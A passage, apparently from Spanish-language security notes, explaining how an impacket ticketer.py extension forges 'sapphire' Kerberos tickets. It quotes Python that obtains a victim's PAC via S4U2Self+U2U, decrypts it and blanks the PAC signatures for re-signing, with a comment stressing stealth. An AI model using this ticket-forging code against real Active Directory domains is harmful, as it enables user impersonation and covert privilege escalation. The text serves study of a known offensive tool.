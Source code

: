 Echando un vistazo al [codigo](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518) de [Charlie Shutdown](https://twitter.com/_nwodtuhs) con su extension de *Ticketer*.

Podemos ver como extrae el PAC.

```python
[...]
            # 1. S4U2Self + U2U
            logging.info('\tRequesting S4U2self+U2U to obtain %s\'s PAC' % self.__options.impersonate)
            tgs, cipher, oldSessionKey, sessionKey = self.getKerberosS4U2SelfU2U()

            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
[...]            
```

Y el PAC del TGT que ya tenemos es (casi) cambiado como se haría normalmente en *Ticketer* con el nuevo PAC obtenido de S4U2Self+U2U tras actualizar *pacInfos*.

Además, algunas banderas siempre están configuradas: Forwadable, Proxiable, Renewable, Pre-Authent

```python
[...]
            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]

            # Let's extend the ticket's validity a lil bit
            # I don't think this part should be left in the code. The whole point of doing a sapphire ticket is stealth, extending ticket duration is not the way to go
            # encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            # encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)

            # Opening PAC
            adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
            pacType = pac.PACTYPE(adIfRelevant[0]['ad-data'].asOctets())
            pacInfos = dict()
            buff = pacType['Buffers']

            # clearing the signatures so that we can sign&encrypt later on
            logging.info("\tClearing signatures")
            for bufferN in range(pacType['cBuffers']):
                infoBuffer = pac.PAC_INFO_BUFFER(buff)
                data = pacType['Buffers'][infoBuffer['Offset'] - 8:][:infoBuffer['cbBufferSize']]
                buff = buff[len(infoBuffer):]
                if infoBuffer['ulType'] in [PAC_SERVER_CHECKSUM, PAC_PRIVSVR_CHECKSUM]:
                    checksum = PAC_SIGNATURE_DATA(data)
                    if checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes256.value:
                        checksum['Signature'] = '\x00' * 12
                    elif checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes128.value:
                        checksum['Signature'] = '\x00' * 12
                    else:
                        checksum['Signature'] = '\x00' * 16
                    pacInfos[infoBuffer['ulType']] = checksum.getData()
```